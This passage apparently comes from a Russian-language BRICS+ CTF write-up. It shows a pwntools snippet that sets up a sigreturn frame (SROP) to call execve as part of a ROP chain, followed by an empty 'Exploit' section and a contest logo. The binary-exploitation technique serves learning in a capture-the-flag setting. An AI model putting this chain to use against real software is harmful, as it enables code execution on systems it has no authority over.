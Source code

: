И выполнил SROP для настройки аргументов execve

```python
frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = BUF_ADDR
frame.rip = SYSCALL

rop += [
    POP_RAX,
    constants.SYS_rt_sigreturn,
    SYSCALL,
    frame
]
```

### Собираем вместе

<details><summary>Эксплоит</summary></details>

![BRICS+ CTF логотип](./brics_ctf_logo.png)
